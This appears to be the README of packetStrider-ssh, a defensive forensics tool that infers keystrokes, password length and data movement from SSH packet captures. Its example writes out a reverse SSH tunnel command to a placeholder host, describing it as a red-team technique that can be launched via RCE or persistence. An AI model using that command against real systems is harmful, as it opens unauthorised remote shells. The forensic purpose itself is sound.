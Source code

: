 ## Getting started
Python3 has been used, and you will need the following modules (YMMV on python2) 

`pip3 install pandas matplotlib pyshark` 

Usage: 

`python3 packetStrider-ssh.py -h` 

Output: 

```
usage: packetStrider-ssh.py [-h] [-f FILE] [-n NSTREAM] [-m] [-k] [-p]
                             [-z ZOOM] [-d DIRECTION] [-o OUTPUT_DIR]
                             [-w WINDOW] [-s STRIDE]

packetStrider-ssh is a packet forensics tool for SSH. It creates a rich
feature set from packet metadata such SSH Protocol message content, direction,
size, latency and sequencing. It performs pattern matching on these features,
using statistical analysis, and sliding windows to predict session initiation,
keystrokes, human/script behavior, password length, use of client
certificates, context into the historic nature of client/server contact and
exfil/infil data movement characteristics in both Forward and Reverse sessions

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  pcap file to analyze
  -n NSTREAM, --nstream NSTREAM
                        Perform analysis only on stream n
  -m, --metaonly        Display stream metadata only
  -k, --keystrokes      Perform keystroke prediction
  -p, --predict_plot    Plot data movement and keystrokes
  -z ZOOM, --zoom ZOOM  Narrow down/zoom the analysis and plotting to only
                        packets "x-y"
  -d DIRECTION, --direction DIRECTION
                        Perform analysis on SSH direction : "forward",
                        "reverse" OR "both"
  -o OUTPUT_DIR, --output_dir OUTPUT_DIR
                        Directory to output plots
  -w WINDOW, --window WINDOW
                        Sliding window size, # of packets to side of window
                        center packet, default is 2
  -s STRIDE, --stride STRIDE
                        Stride between sliding windows, default is 1
```


## Example
The pcap "forward_reverse.pcap" is from a common TTP of a Reverse SSH shell, a favorite of red teams everywhere. Specifically the following commands were used, to highlight the capabilities of packet strider in a simple way: 
- Forward connection from victim
    - The command for the forward session was `ssh user@1.2.3.4 -R 31337:localhost:22` which binds local port 31337 ready for the reverse SSH connection back to the victim PC. This connection can be effected in many ways including manually, by an RCE, SSRF, or some form of persistence. For the purpose of this demo, it is a manual standard forward session.  
    - This was NOT the first time the client has seen the server , we see this because the delta for related packets was very small , the server's key fingerprint was already in the client's known_hosts, so the user was not prompted to add it - which would increase the latency of packets. 
   - Two consecutive failed password logins by a human, followed by a successful login with an 8+ character password.
   - `ls` is typed in forward session, in this sequence: **'l'** 'w' 'w' 'back-space' 'back-space' **'s'** and then enter. The total size of data over the wire that is transmitted (as the output of ls) is classified as infiltration, given that is inbound.
